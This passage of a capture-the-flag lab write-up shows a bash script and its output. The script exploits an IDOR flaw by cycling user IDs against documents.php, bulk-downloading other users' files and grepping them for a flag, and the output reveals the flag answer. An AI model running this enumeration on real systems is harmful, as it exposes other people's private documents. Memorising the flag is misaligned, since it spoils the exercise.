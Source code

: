 ```bash
        rm -f ./*
        echo "No flag found. All files deleted."
    fi
    cd .. && rmdir "$temp_dir" 2>/dev/null
}

# Capture CTRL+C to ensure cleanup
trap cleanup EXIT

for i in {1..20}; do
    # Get document links via POST
    links=$(curl -s -X POST "$url/documents.php" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -d "uid=$i" | grep -oP '\/documents\/.*?\.(pdf|txt)')

    [ -z "$links" ] && continue

    # Download files silently
    for link in $links; do
        filename=$(basename "$link")
        wget -q "$url$link" -O "$filename"
        downloaded_files+=("$filename")
        
        # Check for flag pattern in text files
        if [[ "$filename" == *.txt ]]; then
            if grep -qP 'HTB\{.*?\}' "$filename"; then
                flag_file="$filename"
                echo -e "\n\033[1;92mFLAG FOUND!\033[0m"
                grep -oP 'HTB\{.*?\}' "$filename"
                return  # Exit after first flag found
            fi
        fi
    done
done

# If we didn't exit early, check all downloaded files
if [ -z "$flag_file" ]; then
    for file in "${downloaded_files[@]}"; do
        if [[ "$file" == *.txt ]] && grep -qP 'HTB\{.*?\}' "$file"; then
            flag_file="$file"
            echo -e "\n\033[1;92mFLAG FOUND!\033[0m"
            grep -oP 'HTB\{.*?\}' "$file"
            break
        fi
    done
fi
```


```
smoothment@htb[/htb]$ ./IDOR.sh

FLAG FOUND!
HTB{4ll_f1l35_4r3_m1n3}
Cleaning up...
```

